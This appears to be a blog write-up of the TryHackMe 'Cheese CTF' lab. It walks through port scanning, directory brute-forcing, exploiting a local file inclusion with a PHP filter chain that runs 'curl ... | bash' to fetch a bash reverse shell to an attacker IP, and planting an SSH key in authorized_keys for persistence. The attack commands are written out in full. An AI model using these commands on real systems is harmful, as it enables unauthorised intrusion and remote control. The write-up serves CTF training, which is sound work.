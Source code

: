 ```yaml
---
layout: post
title:  "TryHackMe: Cheese CTF"
description: Inspired by the great cheese talk of THM!
date:   2024-08-10 22:53:59 +0100
categories: jekyll update
---
```


# Cheese CTF:

```sh
export IP= M-ip
```
# Enumeration:

```sh
sudo nmap -sS -sC -sV -vv $IP
```
It's clear that the machine is using port spoofing to create decoy services by opening multiple fake ports. This makes it look like various services are running, which is intended to confuse us and make it harder to identify which port is legitimate.

<details>
  <summary><i>Nmap Discoverd Ports</i></summary>
  <pre>
Discovered open port 143/tcp on 10.10.10.247
Discovered open port 139/tcp on 10.10.10.247
Discovered open port 111/tcp on 10.10.10.247
Discovered open port 995/tcp on 10.10.10.247
Discovered open port 53/tcp on 10.10.10.247
Discovered open port 3389/tcp on 10.10.10.247
Discovered open port 554/tcp on 10.10.10.247
Discovered open port 5900/tcp on 10.10.10.247
Discovered open port 445/tcp on 10.10.10.247
Discovered open port 1720/tcp on 10.10.10.247
Discovered open port 110/tcp on 10.10.10.247
Discovered open port 587/tcp on 10.10.10.247
Discovered open port 8080/tcp on 10.10.10.247
Discovered open port 21/tcp on 10.10.10.247
Discovered open port 22/tcp on 10.10.10.247
Discovered open port 1723/tcp on 10.10.10.247
Discovered open port 80/tcp on 10.10.10.247
Discovered open port 1025/tcp on 10.10.10.247
Discovered open port 993/tcp on 10.10.10.247
Discovered open port 3306/tcp on 10.10.10.247
Discovered open port 5544/tcp on 10.10.10.247
Discovered open port 2222/tcp on 10.10.10.247
Discovered open port 2007/tcp on 10.10.10.247
Discovered open port 3322/tcp on 10.10.10.247
Discovered open port 7402/tcp on 10.10.10.247
Discovered open port 1078/tcp on 10.10.10.247
Discovered open port 3013/tcp on 10.10.10.247
Discovered open port 545/tcp on 10.10.10.247
Discovered open port 8093/tcp on 10.10.10.247
Discovered open port 8010/tcp on 10.10.10.247
Discovered open port 60020/tcp on 10.10.10.247
Discovered open port 9003/tcp on 10.10.10.247
Discovered open port 25/tcp on 10.10.10.247
Discovered open port 6881/tcp on 10.10.10.247
Discovered open port 32775/tcp on 10.10.10.247
Discovered open port 1169/tcp on 10.10.10.247
Discovered open port 5989/tcp on 10.10.10.247
Discovered open port 3005/tcp on 10.10.10.247
Discovered open port 8042/tcp on 10.10.10.247
Discovered open port 49159/tcp on 10.10.10.247
Discovered open port 2135/tcp on 10.10.10.247
Discovered open port 11110/tcp on 10.10.10.247
Discovered open port 8701/tcp on 10.10.10.247
Discovered open port 8193/tcp on 10.10.10.247
Discovered open port 2394/tcp on 10.10.10.247
Discovered open port 5631/tcp on 10.10.10.247
Discovered open port 199/tcp on 10.10.10.247
Discovered open port 90/tcp on 10.10.10.247
Discovered open port 4445/tcp on 10.10.10.247
Discovered open port 1032/tcp on 10.10.10.247
Discovered open port 1009/tcp on 10.10.10.247
Discovered open port 25734/tcp on 10.10.10.247
Discovered open port 5850/tcp on 10.10.10.247
Discovered open port 1812/tcp on 10.10.10.247
Discovered open port 443/tcp on 10.10.10.247
Discovered open port 1030/tcp on 10.10.10.247
Discovered open port 3527/tcp on 10.10.10.247
Discovered open port 2033/tcp on 10.10.10.247
Discovered open port 1152/tcp on 10.10.10.247
Discovered open port 23/tcp on 10.10.10.247
Discovered open port 8083/tcp on 10.10.10.247
Discovered open port 8888/tcp on 10.10.10.247
Discovered open port 113/tcp on 10.10.10.247
Discovered open port 135/tcp on 10.10.10.247
Discovered open port 256/tcp on 10.10.10.247
Discovered open port 1334/tcp on 10.10.10.247
Discovered open port 1192/tcp on 10.10.10.247
Discovered open port 1322/tcp on 10.10.10.247
Discovered open port 32772/tcp on 10.10.10.247
Discovered open port 3052/tcp on 10.10.10.247
Discovered open port 32781/tcp on 10.10.10.247
Discovered open port 27356/tcp on 10.10.10.247
Discovered open port 5414/tcp on 10.10.10.247
Discovered open port 19350/tcp on 10.10.10.247
Discovered open port 808/tcp on 10.10.10.247
Discovered open port 1687/tcp on 10.10.10.247
Discovered open port 9575/tcp on 10.10.10.247
Discovered open port 2035/tcp on 10.10.10.247
Discovered open port 6009/tcp on 10.10.10.247
Discovered open port 50001/tcp on 10.10.10.247
Discovered open port 2909/tcp on 10.10.10.247
Discovered open port 801/tcp on 10.10.10.247
Discovered open port 10617/tcp on 10.10.10.247
Discovered open port 1875/tcp on 10.10.10.247
Discovered open port 38292/tcp on 10.10.10.247
Discovered open port 514/tcp on 10.10.10.247
Discovered open port 2701/tcp on 10.10.10.247
Discovered open port 7999/tcp on 10.10.10.247
Discovered open port 22939/tcp on 10.10.10.247
Discovered open port 1033/tcp on 10.10.10.247
Discovered open port 8008/tcp on 10.10.10.247
Discovered open port 1198/tcp on 10.10.10.247
Discovered open port 2381/tcp on 10.10.10.247
Discovered open port 44442/tcp on 10.10.10.247
Discovered open port 50002/tcp on 10.10.10.247
Discovered open port 3914/tcp on 10.10.10.247
Discovered open port 5225/tcp on 10.10.10.247
Discovered open port 5800/tcp on 10.10.10.247
Discovered open port 2008/tcp on 10.10.10.247
Discovered open port 5862/tcp on 10.10.10.247
Discovered open port 2009/tcp on 10.10.10.247
Discovered open port 8400/tcp on 10.10.10.247
Discovered open port 5033/tcp on 10.10.10.247
Discovered open port 2910/tcp on 10.10.10.247
Discovered open port 10004/tcp on 10.10.10.247
Discovered open port 2260/tcp on 10.10.10.247
Discovered open port 990/tcp on 10.10.10.247
Discovered open port 8085/tcp on 10.10.10.247
Discovered open port 777/tcp on 10.10.10.247
Discovered open port 37/tcp on 10.10.10.247
Discovered open port 8086/tcp on 10.10.10.247
Discovered open port 9898/tcp on 10.10.10.247
Discovered open port 3889/tcp on 10.10.10.247
Discovered open port 616/tcp on 10.10.10.247
Discovered open port 1096/tcp on 10.10.10.247
Discovered open port 7443/tcp on 10.10.10.247
Discovered open port 24/tcp on 10.10.10.247
Discovered open port 6156/tcp on 10.10.10.247
Discovered open port 9080/tcp on 10.10.10.247
Discovered open port 1296/tcp on 10.10.10.247
Discovered open port 2100/tcp on 10.10.10.247
Discovered open port 2607/tcp on 10.10.10.247
Discovered open port 1038/tcp on 10.10.10.247
Discovered open port 1174/tcp on 10.10.10.247
Discovered open port 42/tcp on 10.10.10.247
Discovered open port 2045/tcp on 10.10.10.247
Discovered open port 1783/tcp on 10.10.10.247
</pre>
</details>

# Directory bruteforcing:


```sh
gobuster dir --url http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
```

```sh
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1759]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.247/images/]
/login.php            (Status: 200) [Size: 834]
/users.html           (Status: 200) [Size: 377]
/messages.html        (Status: 200) [Size: 448]
/orders.html          (Status: 200) [Size: 380]
```

we found that the /messages.html contain 

![Screenshot_9](https://github.com/user-attachments/assets/554342de-9602-4fa1-98f5-ae13da327c3d)

we got a Local File Inclusion (LFI) on /secret-script.php?file=php://filter/resource=/etc/passwd  

PHP applications that allow user input to dictate file handling without proper validation.

![Screenshot_1](https://github.com/user-attachments/assets/3ec570d3-e484-4258-be23-cc2f3683be2b)


# initial access : 

I used php filter chain generator . 

https://github.com/synacktiv/php_filter_chain_generator


```sh
echo "bash -i >& /dev/tcp/10.9.1.54/4444 0>&1" > shell
```
<?= ... ?>: This is PHP's shorthand for <?php echo ... ?>, which means it will output or "echo" whatever is inside the tags.

```sh
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.9.1.54/shell|bash` ?>'
```

<details>
  <summary><i>Output</i></summary>
  <pre>
+] The following gadget chain will generate the following code : <?= `curl -s -L 10.9.1.54/shell|bash` ?> (base64 value: PD89IGBjdXJsIC1zIC1MIDEwLjkuMS41NC9yZXZzaGVsbGx8YmFzaGAgPz4)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
  </pre>
</details>


```sh
Attacker Machine 

sudo python3 -m http.server 80
```
```sh
Attacker Machine

nc -lvnp 4444
```

```sh
http://10.10.237.45/secret-script.php?file=PHP-FILTER-CHAIN'Output'
```

![Screenshot_2](https://github.com/user-attachments/assets/b8796269-e663-4402-8c9b-cce01cc4b6c3)

After we apply the PHP filter chain to the vulnerable Local File Inclusion (LFI), the reverse shell script will be downloaded to the victim machine and executed. This happens by using the curl command to fetch the shell script from our remote server, and then piping it directly into Bash for execution, giving us remote access to the target system.

# Privilege escalation:

After further enumeration, I discovered that I have write access to the authorized_keys file in the .ssh directory.

```sh
Attacker Machine

ssh-keygen -t rsa

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0O0JSsJWhGHQDI1wEqoTZapMiec+9x/FzqM2Ys2+9o8U1RQEp6zHWMVzjGDFSGDSJGDJLKQSJKCJLQKb5iA+mZSagNEHIXn906gQW2/z3hpojwsDTLiEzdEPh+66q28LHFL0FuUmNvslkjmlkcdnhCKUklmdjsq?XCLMW?QLKSFJKDBSJKBdnszfjheafhjvdxqhcvbqvcygfavguvcshjwbcnsbhfsfsojfdsE7NCxFoKcl9MeMyNYPZB4WzRjXStQfF9XyuvhrI+C6VLoWiL11N2owozGhssA/1/hpEjDWJwMe0/7QcYYjTJ2IOJFDSKLNFSDHFDFSDlxWv/zINKv5EttAFyrTtO2pydh3wd5GaC8se0= kali@attacker_machine
```
```sh
Victim Machine

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0O0JSsJWhGHQDI1wEqoTZapMiec+9x/FzqM2Ys2+9o8U1RQEp6zHWMVzjGDFSGDSJGDJLKQSJKCJLQKb5iA+mZSagNEHIXn906gQW2/z3hpojwsDTLiEzdEPh+66q28LHFL0FuUmNvslkjmlkcdnhCKUklmdjsq?XCLMW?QLKSFJKDBSJKBdnszfjheafhjvdxqhcvbqvcygfavguvcshjwbcnsbhfsfsojfdsE7NCxFoKcl9MeMyNYPZB4WzRjXStQfF9XyuvhrI+C6VLoWiL11N2owozGhssA/1/hpEjDWJwMe0/7QcYYjTJ2IOJFDSKLNFSDHFDFSDlxWv/zINKv5EttAFyrTtO2pydh3wd5GaC8se0= kali@attacker_machine" > authorized_keys
```
```sh
Attacker Machine

chmod 600 id_rsa

ssh -i id_rsa  comte@10.10.122.229
```

![Screenshot_3](https://github.com/user-attachments/assets/2d798fae-caf9-4243-b251-08a218e826f7)

